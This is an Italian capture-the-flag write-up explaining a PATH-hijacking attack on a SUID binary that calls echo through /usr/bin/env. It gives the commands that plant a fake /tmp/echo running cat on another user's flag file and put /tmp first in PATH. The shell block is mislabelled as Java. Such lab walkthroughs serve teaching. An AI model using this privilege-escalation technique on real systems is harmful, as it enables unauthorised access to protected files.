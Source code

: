 system("/usr/bin/env echo and now what?");

- Il programma utilizza /usr/bin/env per eseguire il comando echo.
- env cerca il comando echo nel PATH.
- Il binario flag01 ha il **bit SUID impostato**, il che significa che il programma viene eseguito con i privilegi di flag00.

env cerca echo nel PATH definito. PATH è una variabile d’ambiente che contiene una lista di directory in cui cercare i comandi eseguibili.

**Se noi modifichiamo il PATH e lo impostiamo in modo che la nostra directory /tmp sia cercata prima delle directory di sistema**, possiamo far sì che il nostro script echo personalizzato venga eseguito al posto del vero /bin/echo

```java
cd /tmp
echo -e '#!/bin/bash\ncat /home/flag00/flag.txt' > echo
chmod +x echo
```

Questo script esegue il comando cat /home/flag00/flag.txt.

export PATH=/tmp:$PATH